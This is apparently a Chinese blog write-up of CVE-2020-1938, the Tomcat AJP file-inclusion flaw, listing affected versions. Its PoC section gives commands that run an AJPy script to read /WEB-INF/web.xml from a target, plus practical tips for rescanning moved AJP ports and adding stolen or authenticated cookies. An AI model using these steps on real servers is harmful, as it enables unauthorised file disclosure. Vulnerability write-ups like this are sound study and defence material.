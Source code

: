 ```yaml
---
title: CVE-2020-1938 文件包含漏洞
tags: 
- CVE
- 漏洞
top_img: /img/yangb.png
cover: /img/CVE.png
---
```


## 漏洞说明
该漏洞是由于Tomcat AJP协议存在缺陷而导致，攻击者利用该漏洞可通过构造特定参数，读取服务器webapp下的任意文件。若目标服务器同时存在文件上传功能，攻击者可进一步实现远程代码执行。目前，厂商已发布新版本完成漏洞修复。

受影响版本

* Apache Tomcat 6  
* Apache Tomcat 7 < 7.0.100  
* Apache Tomcat 8 < 8.5.51
* Apache Tomcat 9 < 9.0.31

不受影响版本

* Apache Tomcat = 7.0.100
* Apache Tomcat = 8.5.51
* Apache Tomcat = 9.0.31

## PoC
```sh
$ git clone git@github.com:yangb92/AJPy.git
$ cd AJPy
$ python tomcat.py read_file --webapp=manager /WEB-INF/web.xml 172.17.0.2
```
> 实战经验: 
>1. 如果目标默认的AJP端口改变, 扫描所有开放端口，逐个进行测试。改变默认端口参数： --port=8812
>2. 如果目标出现302授权跳转，需要在tomcat.py/perform_request函数提供默认参数headers={"cookie":"xxx"},添加已认证的cookie
